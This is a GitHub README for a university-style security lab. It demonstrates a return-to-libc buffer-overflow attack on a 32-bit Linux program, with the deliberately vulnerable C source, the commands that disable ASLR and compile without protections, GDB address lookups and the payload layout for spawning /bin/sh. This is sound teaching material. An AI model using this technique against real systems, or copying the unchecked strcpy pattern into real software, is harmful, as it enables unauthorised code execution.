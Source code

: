 # 🔓 Lab2-Libc-Attack: A Return-to-Libc Exploit

This lab demonstrates a **Return-to-libc** exploitation technique on a **32-bit Linux** system. The objective is to exploit a vulnerable program (`retlib`) that has a non-executable stack by reusing existing libc functions (`system()` and `exit()`) to execute `/bin/sh`, without injecting shellcode.

---

## Overview

This project implements a classic stack-based buffer overflow to demonstrate a **Return-to-libc (ret2libc)** attack on a 32-bit Linux binary with a non-executable stack (NX bit).

**Key Objectives:**

* Demonstrate a buffer overflow vulnerability.
* Bypass stack execution protections (NX) by reusing existing code from `libc`.
* Successfully spawn a `/bin/sh` shell by overwriting the return address to call `system()`.
* Illustrate stack frame layout and function call conventions in 32-bit x86.

## Prerequisites

* 32-bit Linux VM (lab environment)
* `gcc` with multilib support (if building 32-bit on a 64-bit host)
* Python 3
* GDB (with **peda** or similar is helpful)
* Example seed image references: [https://seedsecuritylabs.org/lab\_env.html](https://seedsecuritylabs.org/lab_env.html)

---

## Repository Files

| File | Description |
| :--- | :--- |
| `retlib.c` | The vulnerable program with a stack-based buffer overflow. |
| `envaddr.c` | A helper utility to print the address of an environment variable. |
| `exploit.py` | Python script to generate the `badfile` payload. |
| `badfile` | The binary payload file generated by `exploit.py`. |
| `README.md` | This documentation. |
| `images/` | Screenshots of the exploitation process. |

---

## Exploitation Flow

The attack bypasses the non-executable stack by overwriting the saved return address on the stack to point to the `system()` function in `libc`.

1.  **Disable ASLR**
    * Address Space Layout Randomization is disabled (`echo 0 > /proc/sys/kernel/randomize_va_space`) so that `libc` function addresses are stable across runs.

2.  **Find Target Addresses**
    * The `MYSHELL` environment variable is set: `export MYSHELL=/bin/sh`.
    * The `envaddr` helper (or GDB) is used to find the runtime address of the `"/bin/sh"` string in the target process's memory.
    * GDB is used on the `retlib` binary to find the runtime addresses for `system()` and `exit()` within the loaded `libc`.

3.  **Construct Payload**
    * The `exploit.py` script builds a `badfile` with a specific payload structure designed to overflow the `buffer` in `bof()` and overwrite the stack frame.
    * **Payload Layout:**
        ```
        [ A * (Offset to EBP) ] + [ Saved EBP ] + [ system_addr ] + [ exit_addr ] + [ sh_addr ]
        ```
    * The payload fills the buffer, restores the saved EBP (to prevent stack corruption), and hijacks the return address.

4.  **Execute Exploit**
    * The vulnerable `retlib` program reads `badfile` into its stack buffer, triggering the overflow.
    * When `bof()` returns, control flow is redirected to `system()`.
    * `system()` executes using the argument on the stack (`sh_addr`), spawning a shell.
    * When the shell exits, control flows to `exit()`, ensuring a clean program termination.

---

## How to Compile and Run

### 1. Disable ASLR (as root)

```bash
# Disable ASLR for predictable addresses
echo 0 > /proc/sys/kernel/randomize_va_space
2. Compile (32-bit)
Bash

# Compile the vulnerable program with no stack protector and a non-executable stack
gcc -m32 -o retlib retlib.c -fno-stack-protector -z noexecstack

# Compile the helper
gcc -m32 -o envaddr envaddr.c
3. Get Addresses
Bash

# Set environment variable
export MYSHELL=/bin/sh

# Get address of the string
./envaddr
# Address: bfffff01 (example)

# Get libc function addresses in GDB
gdb -q ./retlib
(gdb) p (void*) system
# $1 = (void *) 0xb7da4da0 <__libc_system> (example)
(gdb) p (void*) exit
# $2 = (void *) 0xb7d989d0 <__GI_exit> (example)
4. Build and Run Exploit
Update exploit.py with the addresses found in Step 3.

Bash

# Generate the payload
python3 exploit.py

# Run the exploit
./retlib
# ... program output ...
whoami
# seed
Step-by-Step Demonstration
1. Getting Target Addresses
Using envaddr to find the /bin/sh string and GDB to find system() and exit().

2. Payload Generation
The exploit.py script generates badfile. The hexdump shows the addresses for system, exit, and /bin/sh in little-endian format.

3. Successful Exploit
Running ./retlib consumes the badfile, overflows the buffer, and successfully spawns an interactive shell, confirmed with whoami.

Vulnerable Code (retlib.c)
C

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str) {
    char buffer[270];
    unsigned int *framep;

    // Copy ebp into framep
    asm("movl %%ebp, %0" : "=r" (framep));

    /* print out information for experiment purpose */
    printf("Address of buffer[] inside bof(): 0x%.8x\n", (unsigned)buffer);
    printf("Frame Pointer value inside bof(): 0x%.8x\n", (unsigned)framep);

    strcpy(buffer, str); // <-- VULNERABILITY
    return 1;
}

int main(int argc, char **argv) {
    char input[1000];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    int length = fread(input, sizeof(char), 1000, badfile);

    printf("Address of input[] inside main(): 0x%x\n", (unsigned int) input);
    printf("Input size: %d\n", length);

    bof(input);

    printf("(^_^)(^_^) Returned Properly (^_^)(^_^)\n");
    return 1;
}
Summary of Results
Task: Use Return-to-libc technique to execute /bin/sh in a vulnerable 32-bit program with a non-executable stack.

Result: Successful — system("/bin/sh") was called and an interactive shell was obtained (whoami returned seed).

Key lessons:

Use the process-specific /bin/sh address, as environment layout differs between processes.

Restore the saved EBP if overwriting it to prevent stack corruption by the leave instruction.

Keep ASLR disabled for predictable addresses in a controlled lab environment.

Author
Prepared by: Abdulrahman ALQunaibit Lab date: October 2, 2025